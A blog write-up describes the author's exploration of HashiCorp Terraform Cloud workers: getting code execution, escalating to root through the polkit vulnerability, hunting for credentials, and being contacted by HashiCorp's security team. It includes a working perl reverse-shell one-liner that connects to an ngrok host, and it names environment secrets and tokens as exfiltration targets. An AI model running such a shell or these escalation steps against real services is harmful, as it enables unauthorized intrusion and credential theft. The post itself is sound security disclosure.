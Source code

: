 # Intro

I am writing the blog a few months after the fact so some details and screenshots were lost along the way. 

I am a big fan of Terraform and more recently Terraform Enterprise (TFE). TFE offers free accounts for users which I use to manage my personal projects.

Using a remote TFE workspaces comes with many cool features but to me best benefits are state management and CI/CD. Simply connect your repo to TFE and commit to main and you terraform code executes. 

This got me thinking, I am running code on another persons machine....

## The starting mischief 

Okay so we can run code on another machine but where does that get us? 

I started thinking a way I can get a shell to explore the Hasicorp TFE workers. There is a great blog by Alxk 
https://alex.kaskaso.li/post/terraform-plan-rce which goes over several methods you can execute code at various stagings in TF. 

The easiest and most simple way is to use an external provider and run bash payload. For some reason at the time I used a perl payload. If I remember correctly it was because it worked out the box...sorry lol.

To make things easy I used ngrok to proxy the connection back to my local host. If you worried about opsec please do not do this. 

```bash
#!/bin/sh

perl -e 'use Socket;$i="4.tcp.ngrok.io";$p=19960;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

## Poking around

Once on the host we are running as user Terraform on Ubuntu 18.04 ... a little outdated if you ask me HashiCorp.

We all love lazy hacking so one of the first things I did was check the sudo version. This at this time PolKit had only been out for few day (weeks?) and I saw version `Sudo version 1.8.21p2`. Light work, finding a quick public exploit on github and we have root.

With root I start poking around the host for any type of configuration files, ssh keys, or credentials that might be useful for escalation but had no luck.

## Cross Persistance? 

My main question was, can I access other users runs? 

Without knowing exactly how the system works, there are some assumptions to be made. I know the hosts are ephemeral and by hitting the AWS metadata API I can see I am  running on a t3a.small. So ephemeral EC2 hosts...interesting. 

I started to wonder, Are hosts being reused or are they delete after a single run? 

To test this I adding a cron on an instance to callback and waited but, it never did. 

I gave up on this idea and started to look elsewhere.
## Finding the Terraform user hash

Using the root access I check /etc/shadowd and found the password hash for the Terraform users. 

Then I check several instances it was clear the all runners share the same user hash, I didn't try to crack it.

While this is a cool find, there is no networking between hosts or externally so the user hash is not useful in this case. I still reported it to HashiCorp. 

## Environment Variables 

This is not really an exploit but a behavior of TFE. If you add secrets or share in a TFE workspace the secrets will be stored in the ENVs. These secrets will be present even if not used by the deployment. This could be useful for exfil in the future if you are able to run TF code. 

Another interesting note is that all workers authenticate to the workspace using an ATLAS_TOKEN, stealing this token will give you temporary access to the workspace. I did not explore exactly what permissions this token had because I was asked by Hashicorp to stop...

I also tried using accessing AWS role credentials using the internal metadata API but there was no role attached to the worker instance, a dead end.

## Getting Caught 

To be clear I was doing all this testing in my own environment in an isolated account with good intentions. That being said it likely against the terms and services. I do not recommend, in any case doing unauthorize testing against a service. 

I called it a night and when I woke up, I had a polite email from Hashicorp.

```bash
Hi there!

We noticed that you are interested in our Terraform Cloud worker configuration and saw that you were active late last night / this morning.

Organization Name: ruse

Workspace Name: testing

While not an exposure within the context of our security model, the type of activity that we observed in your account (specifically, escalating access on an isolated worker using the recent polkit vulnerability) violates the Terms of Use for Terraform Cloud. Normally this would result in a suspension of your Terraform organization and account, but we wanted to reach out, and see if you would be interested in chatting more about Terraform Cloud. We also ask that you refrain from seeking access to AWS metadata, exploiting CVE-2021-4034, etc. and, instead, invite you to have a chat.

Looking forward to hearing back from you.

Best,

HashiCorp Security

P.S. We are also hiring (https://www.hashicorp.com/jobs/security) in case you are interested in taking your security knowledge and applying it more directly to our products as part of the HashiCorp team :).
```

I was able to meet with their security team and walk through what I was trying and possible attack paths. The security team was very nice and shared some of the system design decisions already take to mitigate those attack paths. 

Seriously shout-out to Hashicorp for being so cool. 

At the end of the day no real vulns (a good thing) came from this exploration but it was fun at the very least. There is more exploration to be done in this area and I would have loved to have more time explore the host configurations, it will have to wait for an authorized time. ;)
